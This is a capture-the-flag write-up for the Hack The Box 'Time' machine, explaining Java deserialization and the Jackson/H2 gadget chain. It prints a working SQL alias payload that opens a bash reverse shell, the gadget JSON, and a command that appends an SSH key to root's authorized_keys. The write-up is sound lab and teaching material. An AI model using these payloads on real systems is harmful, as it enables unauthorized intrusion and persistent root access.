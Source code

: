 ```yaml
---
tags: 🥷
---
```


#	Time

## Overview

This box is a Linux one. For the initial foothold you need to exploit a bug within the Jackson library for deserializing **JSON's** leading to a SSRF which can leverage a RCE. Once on the box a simple classic enumeration reveals a root bash script with read/write access. Consequenlty, just importing your pub **SSH** key into the `authorized_keys` file will grant access to root.


## Enumeration

Running nmap reveals 2 services:

```bash
> nmap -sC -sV -oA nmap/time 10.10.10.214
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Online JSON parser
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Once we check the web server, we see that we can beutify/validate JSON. Also, the validate functionality is in Beta. So let's check that first.
<br>

Upon submitting `{"test"}` we see the following error: 
```
Validation failed: Unhandled Java exception: com.fasterxml.jackson.databind.exc.MismatchedInputException: Unexpected token (START_OBJECT), expected START_ARRAY: need JSON Array to contain As.WRAPPER_ARRAY type information for class java.lang.Object
```

So it's expecting an array: `["test"]`. 
But that also throws an error: 
```
Validation failed: Unhandled Java exception: com.fasterxml.jackson.databind.exc.InvalidTypeIdException: Could not resolve type id 'test' as a subtype of [simple type, class java.lang.Object]: no such class found
```

Now, in both of our errors we see that they're thrown by a library called *jackson*, which is used to 
serialize or map POJO *(Plain Old Java Objects)* to JSON and deserialize JSON to POJO. With some more searching we find a [CVE](https://blog.doyensec.com/2019/07/22/jackson-gadgets.html) which addresses a deserialization vulnerability where an attacker could control the class to be deserialized.


## Understanding the CVE

### What is serialization/deserialization
In order to understand what deserialization vulnerabilities are and behave, we firstly need to get familiar with what serialization & deserialization is. Swapneil Kumar Dash wrote a beautiful [article](https://medium.com/@swapneildash/understanding-java-de-serialization-ee96054da15d) about this, however I will provide a short overview in this post as well. 

> In computing, serialization  is the process of translating a data structure or object state into a format that can be stored or transmitted and reconstructed later. Deserialization is the opposite.

In our case, we translate java objects into JSON and vice-versa.

	* What could go wrong ?

Usually, in java we can use something like this to deserialize data:
```java
...
FileInputStream fin  = new FileInputStream("your/file/path");
ObjectInputStream in = new ObjectInputStream(fin);
customClassInstance  = (CustomClass) in.readObject();
...
```
The main problem lies within the way readObject deserializes data which executes the class while also
throwing an error if we give it a serialized input of a different class.

I won't go into much detail here on this topic, since it's a broad one. However, if you're interested in 
learning more about it you should check the resources and [this talk](https://www.youtube.com/watch?v=t-zVC-CxYjw) by **Alexei Kojenov** which also made some great [examples](https://github.com/kojenov/serial) you can play 
around with.

### How java gadgets work
Gadgets are just a class or funcion that's available within the executing scope of an application. For example the following code is a simple implementation in Java:
```java
/* CacheManager.java */
public class CacheManager implements Serializable {
	private final Runnable initHook;
	public void readObject(ObjectInputStream in) {
		in.defaultReadObject();

		initHook.run();
	}
}

/* CommandTask.java */
public class CommandTask implements Runable, Serializable {
	private final String cmd;
	public CommandTask(String cmd) {
		this.cmd = cmd;
	}

	public void run() {
		Runtime.getRuntime().exec(cmd);
	}
}
```

Here, an attacker can inject a serialized `CommandTask` into an input stream that will be read by `CacheManager`, which in return invokes run. Therefore, he gains arbitrary command execution.
<br>

### Jackson library deserialization vulnerability POC
The *CVE* of interest is focusing mostly on the *Jackson* library. They found that when *Jackson* deserializes a specific class (`ch.qos.logback.core.db.DriverManagerConnectionSource`), it can be abused to instantiate a Java Database Connectivity *(JDBC)*, which is used to connect & interact with the dabase. To understand better let's break down the payload used in the [**POC**](https://blog.doyensec.com/2019/07/22/jackson-gadgets.html):

`$ "[\"ch.qos.logback.core.db.DriverManagerConnectionSource\", {\"url\":\"jdbc:h2:mem:\"}]"`

As said previously we use the `DriverManagerConnectionSource` class to pass an url, which will trigger [`setUrl`](https://www.javadoc.io/doc/ch.qos.logback/logback-core/1.1.11/ch/qos/logback/core/db/DriverManagerConnectionSource.html#setUrl(java.lang.String)). Afterwards, the object is serialized into a JSON object again. Consequently, the `getConnection()` [method](https://www.javadoc.io/static/ch.qos.logback/logback-core/1.1.11/ch/qos/logback/core/db/DriverManagerConnectionSource.html#getConnection()) is called which creates an in-memory database. This is further used to create a remote connection.
<br>

Until now, we've only got a way to generate a Server Side Request Forgery *(SSRF)*. So how could we turn this into a full chain RCE ?
In order to achieve that, the guys from [doyensec](https://doyensec.com/) leveraged the [H2](http://www.h2database.com/html/features.html) JDBC driver which has the capability to run SQL scripts from the JDBC url. This alone won't allow an attacker to run Java code inside the JVM context, however H2 has the capability to specify custom aliases containing java code [which can be abused](https://mthbernardes.github.io/rce/2018/03/14/abusing-h2-database-alias.html).

```sql
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
	java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream())
		.useDelimiter("\\A");
	return s.hasNext() ? s.next() : "";
}$$;
CALL SHELLEXEC('whoami')
```

As a result, we only need to serve a sql file to the target machine that makes the request to our in-memory *DB* with the use of `DriverManagerConnectionSource` and we have remote code execution.


## Leveraging what we've learned to own user

We've learned that we can use a deserialization vulnerability within Jackson to leverage a connection to a in-memory *DB*, which accepts aliases that can be used to execute commands. So, all wee need to do is:

1. *Prepare the `inject.sql` script*
```java
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
	java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream())
		.useDelimiter("\\A");
	return s.hasNext() ? s.next() : "";
}$$;
CALL SHELLEXEC('bash -i >& /dev/tcp/IP/PORT 0>&1')
```

2. *Setup http server & netcat listener*
![](https://i.imgur.com/kYaG0vZ.png)


3. *Abuse the deserialization vulnerability & use the `DriverManagerConnectionSource` gadget*

4. *Enjoy your shell*
![](https://i.imgur.com/jh0fwLP.png)



## Privilige escalation

Once on the box, a simple enumeration reveals that we have write access to a backup script ran by root.
```bash
bash-5.0$ cat /usr/bin/timer_backup.sh
cat /usr/bin/timer_backup.sh
#!/bin/bash
zip -r website.bak.zip /var/www/html && mv website.bak.zip /root/backup.zip
```

So, we could just import our public SSH key and have root access.
```bash
echo "echo SSH_PUB_KEY >> /root/.ssh/authorized_keys" >> /usr/bin/timer_backup.sh
```


## Conclusion
I've seen that a lot of people said that this box is easy, which I can agree in the way that you can find the CVE quite easy and modify the POC payload to get the flags and move on, without diving more into it. However, I think that this is a great box for someone new and even for some more experienced people. I say this because if you really want to understand what's going on behind the scenes, which you should, you understand new concepts such as: *java deserialization, gadgets, how an actual CVE is found, etc*.

Honestly, I learned a lot by playing around with this box and afterall this is the goal of *HTB*. To learn new concepts that you can add to your skill-set which elevates your craft.

If you want to dig deeper into deserealization attacks within java libraries, I suggest you check the references down below. I found some really great articles/talks about this subject which I can't give enough credit.

## References
- [Understanding Java Deserialization](https://medium.com/@swapneildash/understanding-java-de-serialization-ee96054da15d)
- [Java deserealization lib to secure apps](https://github.com/ikkisoft/SerialKiller)
- [Understanding insecure implementation of Jackson deserialization](https://medium.com/@swapneildash/understanding-insecure-implementation-of-jackson-deserialization-7b3d409d2038)
- [On Jackson CVEs: Don’t Panic — Here is what you need to know](https://medium.com/@cowtowncoder/on-jackson-cves-dont-panic-here-is-what-you-need-to-know-54cd0d6e8062#da96)
- [SnakeYaml Deserilization exploited](https://medium.com/@swapneildash/snakeyaml-deserilization-exploited-b4a2c5ac0858)
- [POC tool 4 generating payloads that exploit unsage Java object deserilization](https://github.com/frohoff/ysoserial)
- [Depickling, gadgets and chains: The class of exploit that unraveled Equifax](https://brandur.org/fragments/gadgets-and-chains)
- [POC Jackson deserilization on Spring web app](https://github.com/galimba/Jackson-deserialization-PoC)
- [Java deserilization cheat-sheet](https://github.com/GrrrDog/Java-Deserialization-Cheat-Sheet#jackson-json)
- [Jackson Library](https://github.com/FasterXML/jackson)
- [Marshalling Pickles - OWASP AppSec California 2015](https://www.youtube.com/watch?v=KSA7vUkXGSg)
- [CVE-2019-12384](https://blog.doyensec.com/2019/07/22/jackson-gadgets.html)

